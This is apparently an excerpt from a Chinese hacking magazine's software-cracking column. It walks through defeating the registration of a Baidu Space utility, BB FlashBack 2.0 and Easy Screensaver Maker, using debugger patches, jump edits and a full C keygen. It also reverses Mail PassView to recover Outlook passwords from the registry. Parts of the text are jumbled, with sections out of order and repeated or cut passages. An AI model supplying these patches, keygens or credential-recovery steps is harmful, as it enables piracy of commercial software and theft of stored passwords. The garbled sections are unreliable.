至此，关于BT3+Spoonwep2+卡王破解WEP密码的过程就全部讲解完了。怎么样，使用图形界面的方法很好理解吧。如果你对无线破解也很有兴趣的话，那就去实践一番吧。

前置知识：汇编

关键词：破解、内存补丁、注册机

### 深入剖析百度空间
#### 互踩漫游大师
### 2008的加密体系

文／图 孤居野狼

百度空间互踩漫游大师2008是由圈里playboyiin编写的系列软件之一，既然是圈里大侠写的，那么加密体系肯定会有一定的难度。下面我们就以破解者的角度去探秘一下。

PEiD查壳显示如图1所示，是一个强壳，有反OD调试功能，但是用海风月影的StrongOD插件可以直接藐视它。本人不太喜欢脱壳，因为有些强壳脱起来太麻烦，被偷代码还要补上，被VM的还要还原。既然OD能运行起来，我们何必要脱壳呢？要爆破的话，找到关键点后，做个DLL补丁就OK了。后面的调试就会发现，这个软件的算法是被VM过的。


图2

OD载入，设置StrongOD的选项如图2所示，F9运行会出现一次异常，我们后面会利用这次异常。运行起来后，看看软件是怎么提示错误的。随便输入123456789，提示“注册失败”，没有弹出对话框，而是以文本的方式提示的。这时候搜索字符串是什么也搜不到的。我们利用下API函数断点来辅助查找字符串。

再次输入假码123456789，下GetWindowTextW断点，懂编程的应该知道这个函数是获得控件内容的。断下后，看到堆栈中出现“立即注册”字符串，如图3所示，说明在取按钮的内容。禁用这个断点后，ALT+F9，返回到comctl32这个模块的领空，再用ALT+F9就相当于单步了。这时候我们换用CTRL+F9，6次后返回到程序的领空，搜索字串，会看到搜索到很多有用的信息（狂喜！因为找到字符串，事情就好办多了，这也是很多软件的弱点）。


图1


图3

我们会看到两段有用的字符串组合，如图4和图5所示。图4中有“注册失败”的字符串，后面有“注册成功”，接着是“\software\microsoft\outlook express\baidus”和“happynow”，显然是将注册码保存到注册表的这个位置。双击返回到汇编窗口，在这段代码的开始004DF318处F2下断点。图5中的字符串，我们后面在定位重点验证时会用到。

F9运行后，重新点击“注册”按钮，会断……

……

再次输入假码123456789，下GetWindowTextW断点，懂编程的应该知道这个函数是获得控件内容的。断下后，看到堆栈中出现“立即注册”字符串，说明在取按钮内容。


图4

8位或16位。当我们怀疑是这两种算法时，我们就要验证，我用的是飘云写的密码学综合工具。接下来，我们来到图6的代码处，是不是很熟悉，就是图7中的代码，作用就是判断假码第10位是不是“-”。


图8

之后的代码就是取上面MD5算的值其中的前10位，然后在004DF49D的CALL中再次进行MD5运算。其实这些算法在这是没有实质作用的，是为了迷惑我们。继续单步会再次发现图7中的代码，作用就是判断第15位是不是“-”。继续单步会看到这样的字符串：“C:\WINDOWS\system32\2035-5241-354D-3136”，在C盘能找到这个文件。当我们关闭程序，打开这个文件时，其实里面没有东西。那它是干什么用的呢？我们发现只有在这次注册成功时，才建立这个文件，因此猜测它是辅助判断是不是注册过的文件，这个我们后面会验证。继续单步就是提示注册成功的代码了。接着把去掉“-”的假码的32位MD5值存放在注册表“\software\microsoft\outlook express\baidus”下面的happynow子键里。


图5

在004DF318处，我们接下来分析一下软件的注册验证。在开始会发现图6所示的代码，通过“ascii "VMProtect begin",0”，我们判断软件会把这里的验证代码给VM，如果脱壳调试的话，需要还原这些代码，所以带壳调试很方便。


图6

F8单步，在004DF360处时，发现寄存器EAX中出现了我们的机器码，继续F8，004DF37C处的EAX中出现假码，接下来判断我们的假码是不是空，判断长度是不是19，否则会提示注册失败。修改标志位，跳过错误提示，来到图7中的代码，大家可以跟进去调试一下，这段代码是判断字符串第5位是不是“-”，改标志位跳过。


图7

接下来会来到图8处的代码，什么作用我已经标在图里了。如何判断BASE64算法和MD5算法呢？很典型的特征是BASE64算法加密后的值后面都带一个或两个“=”，MD5的加密值是32位。

通过分析这段代码，发现只要注册码是19位，且第5、10、15位是“-”，就可以注册成功。我们输入“1234-5678-9012-3456”，点击“注册”按钮，如图9所示，显示注册成功，但最下面还是显示未注册，猜测程序还有其他校验。


图9

### SECRET OF CRACK

> 栏目编辑：icefire

地方的验证，不可能就验证这3位，这可是密界大侠写的软件啊。

带着疑问，我们重启程序，会出现提示是破解版本，如图10所示，作者跟我们开了个玩笑。程序是如何判断的呢？这时候我们再次看前面图5中的字符串组合，发现了同样的字符串。双击返回到反汇编窗口，在段首F2下断，再次OD载入，F9运行，会出现一次异常，因为带壳调试，以前在程序中的断点会被禁用，这时候我们激活断点，SHIFT+F9运行，断下来。下面我们将分析这个重启验证处的加密。

继续MD5加密得到32位MD5值，取此结果的11～26位，再次MD5加密，最后与去除“-”的假码的MD5值进行比较，相同就注册成功，否则视为破解版本。这也是为什么会提示破解版本的原因。通过流程的分析，我们可把前面取的11～26值，每隔4位加“-”就得到注册码了。

下面我们来看看如何破解它。首先是爆破的实现，因为第1次注册验证它只验证第5、10、15位是不是“-”，我们把机器码当作注册码，就会提示成功。之后是重启验证的爆破，图11中最后一句的跳转是关键爆破点。下面我就用一款DLL型内存补丁制作工具来破解，具体填写内容如图12所示，这样就实现了爆破。


在段首会再次看到“ascii”“VMProtect begin”“0”的汇编指令，这里的验证代码也会被VM，作者把这两处的注册验证都VM了。

为了减少篇幅，这段代码的关键点我已经注释在图11中了，其中没用的代码删去了。下面就简单分析一下，它的流程是：首先检查C:\WINDOWS\system32中是否存在机器码命名的文件，如果不存在的话将视为未注册版本。接下来取注册表中存放的去除“-”的假码的MD5值，再去除机器码的“-”，用BASE64算法加密，将加密后的结果进行MD5加密得到32位MD5值，取其结果的5～14位。

这款软件的算法实现流程如图13所示，其实很简单，就是两个算法的运用。至于编程的实现，就不详细分析了。

最后，我还用VB写了个注册机，工程文件已随文提供，不会的可以参考。在我的系统上计算出的注册码如图14所示。因为个人水平有限，文中如有不对之处，还望高手不吝赐教！

```asm
004DDCE2    je   004DDFC6
004DDCFF    call 004DE4DC
004DDD2E    mov  edx,004DE03C
...
004DDE44    jnz  004DDF17

图11
```


前置知识：汇编

关键词：破解、爆破法、CRC校验

## 破解BB FlashBack 2.0

文/图 Tommie

BB FlashBack 2.0这款录像软件，相信大家都不会陌生，有些人还说这是Cracker专用的录像软件。针对2.0版，微笑一刀曾经发过相关补丁，但并没有做出分析，于是就找来这款软件，尝试进行破解。

PEiD打开主程序，如图1所示，没有加壳，使用Borland C++编写。再用插件KANAL看看有什么算法，如图2所示，发现有CRC。


图1


图2

OLLYDBG载入程序，F9让其跑起来，期间会遇到3个异常，按Shift+F9也是过不了的。这时可以在“选项→调试设置→异常”下勾选“同时忽略以下指定的异常或范围”，并“添加最近的异常”，如图3所示，确定后再F9运行。途中又会经过3个异常，一共要添加3次。如果嫌麻烦，则可添加一次“00000000-FFFFFFFF”这个地址。


图3

待程序运行起来，在“HELP→ENTER KEY”中填好相关注册信息，先不要忙着注册，在OLLYDBG最下边的“COMMAND”中输入“bp MessageBoxA”（注意大小写），下API断点，此时就可以注册了。

```asm
77D507EA   8BFF      mov edi, edi ; 程序就在这里
77D507EC   55        push ebp
77D507ED   8BEC      mov ebp, esp
```

在堆栈区可以看到程序返回到004B72FD，点击在“反汇编窗口中跟随”，来到如下代码处。

```asm
004B72F7   50             push eax
004B72F8   E8 01F71900    call <jmp.&USER32.MessageBoxA> ; 程序调用窗体API
004B72FD   FF4E 1C        dec dword ptr [esi+1C] ; 返回到这里
```

在反汇编区上下滚动了一下，发现这个模块调用MessageBoxA比较多，应该就是注册模块了。因为程序有CRC的关系，本打算要算法分析的，跟踪算法CALL，发现了CALL很多，跟踪到主程序调用rt160.bpl这个文件，跟踪到一半的时候就没跟踪下去了，因为在这个程序的目录下还有好几个这种类型的文件，所以最终选择了暴力破解。根据我的经验，一般与错误窗体相邻的窗体就是正确窗体。我们向上滚动，发现有很多条件跳转，代码如下：

```asm
004B7242  /E9 D40A0000  jmp 004B7D1B
; 无条件跳
004B7247  |8B85 38FEFFFF mov eax, dword ptr [ebp-1C8]
004B724D  |83E8 FB       sub eax, -5
; Switch (cases FFFFFFFB..FFFFFFFF)
004B7250  |0F84 7A010000 je 004B73D0
; 这个是跳过错误窗体
004B7256  |48           dec eax
004B7257  |0F84 65060000 je 004B78C2
; 这个是跳过错误窗体并跳过错误窗体相邻的下面那个窗体
004B725D  |83E8 03      sub eax, 3
004B7260  |0F85 A3070000 jnz 004B7A09
; 同上
004B7266  |80BD 3FFFEFFF 00 cmp byte ptr [ebp-1C1],0
; Case FFFFFFFF of switch 004B724D
004B726D  |74 15        je short 004B7284
; 这个是短跳
004B726F  |57           push edi
004B7270  |8D95 80FCFFFF lea edx, dword ptr [ebp-380]
004B7276  |52           push edx
004B7277  |E8 58F60A00  call 005668D4
004B727C  |83C4 08      add esp, 8
004B727F  |E9 85070000  jmp 004B7A09
; 无条件跳
```

不难看出004B7250就是关键跳转了。双击该指令，把它改为“jne 004B73D0”，右键选择“复制到可执行文件→选择→保存文件”。打开保存后的文件，尝试注册，如图4所示。再重新打开保存文件，却报错了，如图5所示。

再用OLLYDBG载入程序，先下好刚才的API断点，再运行软件。

```asm
77D507EA > 8BFF      mov edi, edi
; 程序断在这里
77D507EC   55        push ebp
77D507ED   8BEC      mov ebp, esp
```

和刚才一样，点击“反汇编窗口中跟随”，来到下面代码处。


图4


图5

```asm
00403DF2   6A 00        push 0
00403DF4   E8 052C2500  call <jmp.&USER32.MessageBoxA>
; 调用窗体API
00403DF9   FF8D FCFBFFFF dec dword ptr [ebp-404]
; 返回到这里
```

我们向上滚动，没发现有条件跳转是跳过这个CALL的，最简单的方法就是直接NOP掉它，“保存文件”，运行程序。这下好了，没有报错了，不过来了一个NAG窗体，如图6所示。


图6

一般对付这种程序，单单是调用NAG窗体的方法，就是F12堆栈调用。依然用OLLYDBG载入，F9运行程序，待程序出现NAG窗体的时候，F12暂停执行，ALT+K显示调用堆栈。因为程序只是调用NAG窗体，所以程序运行之后所调用的堆栈就比较少，如图7所示。在这里我们只需要注意函数过程/参数，如果程序调用的函数代码是在主程序的领空，那么这个函数就应该是验证函数了。从中我们不难发现，符合条件的有两个，但确切地说只有一个，第3个函数是第4个函数的子 CALL，这时在第4个函数上右键点击“显示调用”，得到如下代码。


图7

```asm
400F20B9  > /8B03           mov eax, dword ptr [ebx]
400F20BB  |. E8 9C370000    call Forms::TApplication::HandleMess>
“显示调用”来到了这里
400F20C0  |. 8B03           mov eax, dword ptr [ebx]
```

我们在 OLLYDBG 的窗口可以看到程序调用了 VC160 文件的模块，如图8所示。在程序所在目录也发现了这个验证文件。我们向上翻，找到这个 400F20BB 地址的 CALL，并在刚开始初始化的代码 F2 下断。

```asm
400F1F74  >/$ 55        push ebp ; 在这里下断
400F1F75  |. 8BEC       mov ebp, esp
400F1F77  |. 83C4 E0    add esp, -20
```

因为我们之前运行过程序了，所以我们先要 F2 重新加载程序，再 F9 运行。如无意外，程序会在我们刚才下断的地方断下。这时我们要观察堆栈区里的调用，并点击“反汇编窗口中跟随”。


图8

```asm
004B6433  |. 8B10             mov edx, dword ptr [eax]
004B6435  |. FF92 E8000000    call dword ptr [edx+E8] ; 调用VC160模块
004B643B  |. 8BF0             mov esi, eax ; 返回到这里
```

再观察 OLLYDBG 窗口，发现已经返回到主程序的领空，上下滚动这个程序模块，没有发现一些条件跳转是跳过这个调用 CALL，但发现这个模块很短，猜测应该是主程序单独设立了一个模块来调用 VC160 模块。这时还是在 004B6435 这个地址的模块首下断，先 F2 重新加载程序再 F9 运行，点击“反汇编窗口中跟随”一次。

```asm
00403E55  FF8D FCFBFFFF    dec dword ptr [ebp-404]
00403E5B  E8 A4250B00      call 004B6404
; 调用004B6435所在模块
00403E60  48               dec eax ; 返回到这里
```

在这个模块里，还是没有发现条件跳转，把这个 CALL 给 NOP 掉，保存文件后运行，NAG 窗体没了，但又出现了一个 CRC 校验，去掉的方法和上面一样，这里就不重复了。之后，我们就可以成功爆破解掉这款软件了。

前置知识：汇编  
关键词：破解、算法、注册机

### Easy Screensaver Maker 算法分析及注册码机的编写


文／图 zigh

最近发现一款软件 Easy Screensaver Maker，它可以用来制作屏幕保护程序，可以在其中添加各种图片、声音等，操作起来非常方便。但是未注册版本具有各种限制，于是就自己来破解它，看看它的算法怎样，顺便学习一下注册机的写法。

首先用 PEiD 查壳，发现程序没有加壳，由 Borland Delphi 6.0–7.0 编写，如图1所示。

## 《黑客防线》精华素材

SECRET OF CRACK

（栏目编辑）icefire）


图1

我们直接用 OD 载入，F9 运行，输入注册码 zJgh，用户名 123123123，下万能断点。点击注册，程序成功地断了下来。

```asm
77D33566  F3:A5       rep movs dword ptr es:[edi], dword p>
; 断在这里
77D33568  8BC8        mov ecx, eax
77D3356A  83E1 03     and ecx, 3
77D3356D  F3:A4       rep movs byte ptr es:[edi], byte ptr>
77D3356F  E8 E3FBFFFF call 77D33157
```

在右边的寄存器窗口，我们可以看到输入的注册码，取消断点，Alt+F9 回到程序领空，一直 F8，经过不断的 ret 返回最初调用函数的地方，来到下面的地方：

```asm
004F545D  53               push ebx
; 在这里下断点，重新载入
004F545E  56               push esi
004F545F  8BF1             mov esi, ecx
004F5461  8BD8             mov ebx, eax
004F5463  33C0             xor eax, eax
004F5465  55               push ebp
004F5466  68 B9554F00      push 004F55B9
004F546B  64:FF30          push dword ptr fs:[eax]
004F546E  64:8920          mov dword ptr fs:[eax], esp
004F5471  83BB 4C020000 01 cmp dword ptr [ebx+24C], 1
004F5478  0F85 20010000    jnz 004F559E
004F547E  A1 748F4F00      mov eax, dword ptr [4F8F74]
004F5483  8038 00          cmp byte ptr [eax], 0
004F5486  0F85 12010000    jnz 004F559E
004F548C  8D55 FC          lea edx, dword ptr [ebp-4]
004F548F  8B83 00030000    mov eax, dword ptr [ebx+300]
004F5495  E8 0233F5FF      call 0044879C
004F549A  8B45 FC          mov eax, dword ptr [ebp-4]
```

```asm
; 注册码进入EAX
004F549D  50               push eax
; 压入堆栈
004F549E  8D55 F8          lea edx, dword ptr [ebp-8]
004F54A1  8B83 FC020000    mov eax, dword ptr [ebx+2FC]
004F54A7  E8 F032F5FF      call 0044879C
; 取得用户名进入EAX
004F54AC  8B45 F8          mov eax, dword ptr [ebp-8]
; 来到这里，待反着
004F54AF  5A               pop edx
004F54B0  E8 47B6FCFF      call 004C0AFC
; 关键call，算法，F7跟入
004F54B5  84C0             test al, al
004F54B7  0F84 C1000000    je 004F557E
; 比较后如果正确，就写入注册表，否则提示出错信息
004F54BD  6A 00            push 0
004F54BF  66:8B0D C8554>   mov cx, word ptr [4F55C8]
004F54C6  B2 02            mov dl, 2
004F54C8  B8 D4554F00      mov eax, 004F55D4
; ASCII "Thanks for registering!"
004F54CD  E8 9AC9F4FF      call 00441E6C
004F54D2  A1 748F4F00      mov eax, dword ptr [4F8F74]
004F54D7  C600 01          mov byte ptr [eax], 1
004F54DA  A1 C4914F00      mov eax, dword ptr [4F91C4]
004F54DF  8B00             mov eax, dword ptr [eax]
004F54E1  8B80 10040000    mov eax, dword ptr [eax+410]
004F54E7  BA F4554F00      mov edx, 004F55F4
; ASCII "Thank you for registering Easy Screensaver Maker!"
004F54EC  E8 DB32F5FF      call 004487CC
004F54F1  B2 01            mov dl, 1
004F54F3  A1 E4F64700      mov eax, dword ptr [47F6E4]
004F54F8  E8 E7A2F8FF      call 0047E7E4
004F54FD  8BF0             mov esi, eax
004F54FF  BA 02000080      mov edx, 80000002
004F5504  8BC6             mov eax, esi
004F5506  E8 79A3F8FF      call 0047E884
004F550B  B1 01            mov cl, 1
004F550D  BA 30564F00      mov edx, 004F5630
; 注册表位置 "Software\AScreenSaver"
004F5512  8BC6             mov eax, esi
004F5514  E8 CFA3F8FF      call 0047F3E8
004F5519  8D55 F4          lea edx, dword ptr [ebp-C]
004F551C  8B83 FC020000    mov eax, dword ptr [ebx+2FC]
004F5522  E8 7532F5FF      call 0044879C
004F5527  8B4D F4          mov ecx, dword ptr ...
```

```asm
[ebp-C]
004F552A | BA 50564F00    mov edx, 004F5650
; 字段"User"
004F552F | 8BC6           mov eax, esi
004F5531 | E8 06A7F8FF    call 0047FC3C
004F5536 | 8D55 F0         lea edx, dword ptr [ebp-10]
004F5539 | 8B83 00030000   mov eax, dword ptr [ebx+300]
...
004F55B3 | E8 C4F2F0FF     call 0040487C
```

```asm
004F55B8  \ C3            retn
004F55B9    E9 3EECF0FF   jmp 004041FC
004F55BE    EB EB         jmp short 004F55AB
004F55C0    5E            pop esi
004F55C1    5B            pop ebx
004F55C2    8BE5          mov esp, ebp
004F55C4    5D            pop ebp
004F55C5    C3            retn
```

这段代码比较清晰，很容易看出 004F54B0 是算法核心，跟进 004F54B0 处的 call，来到这里：

```asm
004C0AFC /$ 55            push ebp
004C0AFD | 8BEC           mov ebp, esp
004C0AFF | 83C4 E8        add esp, -18
004C0B02 | 53             push ebx
004C0B03 | 56             push esi
004C0B04 | 57             push edi
...
; 用户名进入EAX
; 注册码进入EAX
; 清空EAX
...
004C0B52 | 8B55 E8        mov edx, dword ptr [ebp-18]
```

我们接着往下看代码：

```asm
[ebp-8]
; 注册码进入EAX
004C0B55  |. 8D45 F8      lea eax, dword ptr [ebp-8]
004C0B58  |. E8 933DF4FF  call 004048F0
004C0B5D  |. 8B45 F8      mov eax, dword ptr [ebp-8]
004C0B60  |. E8 AB3FF4FF  call 00404B10
; 计算注册码长度，结果进入EAX
004C0B65  |. 83F8 20      cmp eax, 20
; 是否为32位，不为32位就注册失败
004C0B68  |. 74 07        je short 004C0B71
004C0B6A  |. 33DB         xor ebx, ebx
004C0B6C  |. E9 CA000000  jmp 004C0C3B
004C0B71  |> C745 F4 0F000> mov dword ptr [ebp-C], 0F
; dword ptr [ebp-C] = 15
004C0B78  |. BE 647D4F00  mov esi, 004F7D64
; ESI = 004F7D64
004C0B7D  |. BF A07D4F00  mov edi, 004F7DA0
; EDI = 004F7DA0
004C0B82  |> 8B45 F8      mov eax, dword ptr [ebp-8]
; 注册码进入EAX
004C0B85  |. 8B16         mov edx, dword ptr [esi]
; EDX = ESI所指的内存中的值
004C0B87  |. 8A0410       mov al, byte ptr [eax+edx]
; AL = 注册码中偏移EDX位上的字符
004C0B8A  |. E8 41FFFFFF  call 004C0AD0

004C0AD0  /$ 33C9         xor ecx, ecx
004C0AD2  |. BA 247D4F00  mov edx, 004F7D24
004C0AD7  |. 3A02         cmp al, byte ptr [edx]
; 比较AL与字符串"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"中的字符
004C0AD9  |. 75 03        jnz short 004C0ADE
004C0ADB  |. 8BC1         mov eax, ecx
004C0ADD  |. C3           retn
004C0ADE  |> 41           inc ecx
004C0ADF  |. 42           inc edx
004C0AE0  |. 83F9 3E      cmp ecx, 3E
004C0AE3  |.^75 F2        jnz short 004C0AD7
004C0AE5  |. 33C0         xor eax, eax
004C0AE7  \. C3           retn
```

```asm
004C0B8F  |. 8BD8         mov ebx, eax
; EBX = EAX
004C0B91  |. 8B07         mov eax, dword ptr [edi]
; EAX = EDI所指的内存中的值
004C0B93  |. 8B55 F8      mov edx, dword ptr [ebp-8]
; EDX = 注册码
004C0B96  |. 8A0402       mov al, byte ptr [edx+eax]
; AL = 注册码中偏移EAX位上的字符
004C0B99  |. E8 32FFFFFF  call 004C0AD0
; EAX = AL在字符串"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"中的位置
004C0B9E  |. 8945 F0      mov dword ptr [ebp-10], eax
004C0BA1  |. 8D43 0F      lea eax, dword ptr [ebx+F]
; 转移地址，EAX = EBX+15
004C0BA4  |. B9 3E000000  mov ecx, 3E
004C0BA9  |. 99           cdq
004C0BAA  |. F7F9         idiv ecx
004C0BAC  |. 8BDA         mov ebx, edx
004C0BAE  |. 3B5D F0      cmp ebx, dword ptr [ebp-10]
; 比较EBX与dword ptr [ebp-10]是否相等
004C0BB1  |. 74 07        je short 004C0BBA
; 必须相等，否则注册失败
004C0BB3  |. 33DB         xor ebx, ebx
004C0BB5  |. E9 81000000  jmp 004C0C3B
004C0BBA  |> 83C7 04      add edi, 4
; EDI = EDI + 4
004C0BBD  |. 83C6 04      add esi, 4
; ESI = ESI + 4
004C0BC0  |. FF4D F4      dec dword ptr [ebp-C]
004C0BC3  |.^75 BD        jnz short 004C0B82
; 这里即循环15次
```

004C0B82 到 004C0BC3 是一个循环，循环 15 次，先取出注册码中事先给定位置上的字符，计算出字符在“ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789”中的位置，然后循环往后取 15 位上的字符，再与另外给定位置的注册码的字符比较，若有一处不同，则注册失败，而给定位置正是 EDI 与 ESI 所指内存上的值。查看数据窗口，罗列得到如下的数据：| 00 | 00 | 00 | 00 | 0F | 00 | 00 | 00 | 06 | 00 | 00 | 00 | 12 | 00 | 00 | 00 |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 04 | 00 | 00 | 00 | 05 | 00 | 00 | 00 | 14 | 00 | 00 | 00 | 07 | 00 | 00 | 00 |
| 11 | 00 | 00 | 00 | 09 | 00 | 00 | 00 | 0B | 00 | 00 | 00 | 17 | 00 | 00 | 00 |
| 0C | 00 | 00 | 00 | 1F | 00 | 00 | 00 | 0E | 00 | 00 | 00 | 01 | 00 | 00 | 00 |
| 1E | 00 | 00 | 00 | 08 | 00 | 00 | 00 | 16 | 00 | 00 | 00 | 13 | 00 | 00 | 00 |
| 02 | 00 | 00 | 00 | 15 | 00 | 00 | 00 | 03 | 00 | 00 | 00 | 0A | 00 | 00 | 00 |
| 18 | 00 | 00 | 00 | 1B | 00 | 00 | 00 | 1A | 00 | 00 | 00 | 0D | 00 | 00 | 00 |
| 1C | 00 | 00 | 00 | 1D | 00 | 00 | 00 | 10 | 00 | 00 | 00 | 19 | 00 | 00 | 00 |

每次循环，EDI、ESI 都是加 4，因此实际上是“00,0F,06,12,04,05,14,07,11,09,0B,17,0C,1F,0E,01,1E,08,16,13,02,15,03,0A,18,1B,1A,0D,1C,1D,10,19”这些数，而 ESI 所指的数为“00,0F,06,12,04,05,14,07,11,09,0B,17,0C,1F,0E…”，EDI 所指的数为“01,1E,08,16,13,02,15,03,0A,18,1B,1A,0D,1C,1D”。即 00 位上的字符往后推 15 位的字符是 01 位上的字符，0F 位上的字符往后推 15 位的字符是 1E 位上的字符，依次类推。因此，实际上每次循环就确定了两位注册码，那么这个循环结束后，就确定了 30 位注册码。我们再看剩下的两位。

```asm
004C0BC5  8B45 FC        mov eax, dword ptr [ebp-4]
004C0BC8  8A00           mov al, byte ptr [eax]
; 取用户名第一位
004C0BCA  E8 01FFFFFF    call 004C0AD0
004C0BCF  8BD8           mov ebx, eax
004C0BD1  8D43 0F        lea eax, dword ptr [ebx+F]
004C0BD4  B9 3E000000    mov ecx, 3E
004C0BD9  99             cdq
004C0BDA  F7F9           idiv ecx
004C0BDC  8BDA           mov ebx, edx
004C0BDE  8BC3           mov eax, ebx
004C0BE0  E8 03FFFFFF    call 004C0AE8
004C0BE5  8B55 F8        mov edx, dword ptr [ebp-8]
004C0BE8  8B0D DC7D4F00  mov ecx, dword ptr [4F7DDC]
004C0BEE  3A040A         cmp al, byte ptr [edx+ecx]
; 第10位
004C0BF1  74 04          je short 004C0BF7
004C0BF3  33DB           xor ebx, ebx
004C0BF5  EB 44          jmp short 004C0C3B
004C0BF7  8B45 FC        mov eax, dword ptr [ebp-4]
; 取用户名最后一位
004C0BFA  E8 113FF4FF    call 00404B10
004C0BFF  8B55 FC        mov edx, dword ptr [ebp-4]
...
```

```asm
004C0C02  8A4402 FF      mov al, byte ptr [edx+eax-1]
; 第25位
004C0C06  E8 C5FFFFFF    call 004C0AD0
004C0C0B  8945 F0        mov dword ptr [ebp-10], eax
004C0C0E  8B45 F0        mov eax, dword ptr [ebp-10]
004C0C11  83C0 0F        add eax, 0F
004C0C14  B9 3E000000    mov ecx, 3E
004C0C19  99             cdq
004C0C1A  F7F9           idiv ecx
004C0C1C  8955 F0        mov dword ptr [ebp-10], edx
004C0C1F  8B45 F0        mov eax, dword ptr [ebp-10]
004C0C22  E8 C1FFFFFF    call 004C0AE8
004C0C27  8B55 F8        mov edx, dword ptr [ebp-8]
004C0C2A  8B0D E07D4F00  mov ecx, dword ptr [4F7DE0]
004C0C30  3A040A         cmp al, byte ptr [edx+ecx]
004C0C33  74 04          je short 004C0C39
; 这里有两段类似的代码，与循环中的算法一样
004C0C35  33DB           xor ebx, ebx
004C0C37  EB 02          jmp short 004C0C3B
004C0C39  B3 01          mov bl, 1
; 成功标志位，如果运行到这里，就能正确注册
004C0C3B  33C0           xor eax, eax
004C0C3D  5A             pop edx
004C0C3E  59             pop ecx
004C0C3F  59             pop ecx
004C0C40  648910         mov dword ptr fs:[eax], edx
004C0C43  68 6A0C4C00    push 004C0C6A
004C0C48  8D45 E8        lea eax, dword ptr [ebp-18]
004C0C4B  BA 02000000    mov edx, 2
004C0C50  E8 273CF4FF    call 0040487C
...
004C0C72  C3             retn
```

剩下两位的算法与上面的相同，即第 10 位和用户名第 1 位有关，第 25 位和用户名的最后一位有关。

到这里，算法就清楚了，比较简单，用 C 语言编写的注册机如下：

```c
#include <stdio.h>
int main() {
    char *con = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
    int data1[15] = {0, 15, 6, 18, 4, 5, 20, 7, 17, 9, 11, 23, 12, 31, 14};
    int data2[15] = {1, 30, 8, 22, 19, 2, 21, 3, 10, 24, 27, 26, 13, 28, 29};
    char res[33];
    char user[20];
    int i, j, k;
    scanf("%s", &user);
    srand((unsigned)time(NULL)); /* 随机数初始化 */
    for (i = 0; i < 15; i++) {
        j = rand() % 62;
        k = (j + 15) % 62;
        res[data1[i]] = con[j];
        res[data2[i]] = con[k];
    }
    for (i = 0; i < 62; i++) {
        if (con[i] == user[0])
            break;
    }
    res[16] = con[(i + 15) % 62];
    for (i = 0; i < 62; i++) {
        if (con[i] == user[strlen(user)-1])
            break;
    }
    res[25] = con[(i + 15) % 62];
    res[32] = 0;
    printf("%s", res);
}
```

将以上代码编译运行，生成一个注册码注册看看，如图 2 所示，成功注册。


图2

这个软件的算法比较简单，很多数据都可以直接在内存中看到，很容易得到关键数据值，从而导致软件被破解。

- 前置知识：汇编
- 关键词：破解、算法、注册表

## 逆向Mail PassView
#### 编写自己的 Outlook 密码恢复工具


文/图 武大信安 starmate[罗成]

通过分析别人已有的工具实现原理，然后自己动手编码实现，这是提高编程能力很好的方法。本文要实现的功能是模仿 Nirsoft 的 Mail PassView 恢复 Outlook 2003~2007 的密码。

这款软件的实现原理不是看一眼就可以明白的，那就逆向 Mail PassView 来看看它是怎么做到的吧。首先需要说明的一点，根据作者网站上的说明，Outlook 2003 及其以后的密码保存的位置在 HKEY_CURRENT_USER\Microsoft\Windows NT\CurrentVersion\Windows Messaging Subsystem\Profiles\[Profile Name]\9375CFF0413111d3B88A00104B2A6676\[Account Index] 中，如果账号类型是 Exchange Server 类型的话，密码则和证书文件存放在一起。另外，网上还有一条有用的信息，就是解密和函数 CryptUnprotectData 有关。

该软件采用 UPX 压缩，脱壳很简单，这里就不仔细说了。ESP 定律跟踪后，OEP 在 0040F796 处。先查找注册表位置的字符串，用插件搜索后，位置锁定在 004033D7 处，如图1所示。


图1

在此下断点，同时在 GetProcAddress 函数处下断点，看函数 CryptUnprotectData 在什么时候引入。下两个断点后，运行 Mail PassView，发现程序断在 00403D53 处，程序在这个地方引入了函数 CryptUnprotectData，并将函数地址存放在 [ESI+208]，即 3C41D4 处，如图2所示。


图2

继续 F9 运行程序，程序断在 004033D7 处，到达注册表读取的地方了。从这里开始我们要好好分析一下，结合注册表具体情况来看，注册表配置文件如图3所示。在图中，我的 POP3 邮箱测试用的密码在 00000002 键中，该键下还存储了 POP3 服务的用户名、地址等其他信息，如图4所示。

由于作者自己封装了很多注册表读取的函数，因此以下部分的汇编代码有很多子函数调用。大家这里不用操心，只需要在 40236D 处下一个断点，然后 F9 运行到此，这里 CALL 的是获取键值句柄的函数，堆栈窗口中显示当前正在操作的注册表键值，我们只关心 9375CFF0413111d3B88A00104B2A6676 下的值。


图3


图4

11d3B88A00104B2A6676 下的值，对前面的部分全部 F9 略过。此外注意，从 IDA 分析的伪代码来看，作者在获取注册表 9375CFF0413111d3B88A00104B2A6676 前一项后就获取了下一项的键值，伪代码如下，可以方便大家理解。

```c
LSTATUS sub_402324(HKEY *a1, int a2)
{
    DWORD v2;
    const CHAR Name;
    char Dst;
    HKEY hRoot;
    v2 = 0;
    Name = 0;
    memset(&Dst, 0, 0xFFu);
    if (!RegEnumKeyNameByIndex(*a1, 0, (LPSTR)&Name)) {
        do {
            if (!RegOpenSubKeyGetHandle(*a1, &Name, ...)) {
                ...
            }
        } while (...);
    }
}
```

```c
&hRoot) )
{
    fRegGetSubKeyContext(&hRoot, a2);
    ++v2;
}
while ( !fRegEnumKeyNameByIndex(*a1, v2, (LPSTR)&Name) );

return RegCloseKey(*a1);
```

当堆栈出现如图5所示的情况的时候，就需要注意详细跟踪了。


在 004022F5 处一个 CALL，这里需要注意，跟进去后发现此处已经对密码输出格式进行填充了，就在这个函数体内进行单步跟踪。到 00402207 的时候，堆栈段里出现了字符串“POP3 Password”，跟进 00401E22，这里是关键的解密部分。

```asm
00401E39 lea eax, dword ptr [esp+C]
00401E3D push eax
00401E3E lea eax, dword ptr [esp+24]
00401E42 push eax
00401E43 push dword ptr [ebp+C]
00401E46 mov dword ptr [esp+18], 400
00401E4E push dword ptr [ebp+8]
00401E51 call <fQueryValueWithType>

00401E56 add esp, 10
00401E59 test eax, eax
00401E5B jnz 00401FAA
00401E61 cmp byte ptr [esp+20], 1
; 关键比较

00401E66 mov byte ptr [esp+41F], bl
00401E6D mov byte ptr [esp+41E], bl
00401E74 mov byte ptr [esp+41D], bl
00401E7B mov byte ptr [esp+41C], bl
00401E82 jnz 00401F4F
// 跳线
```

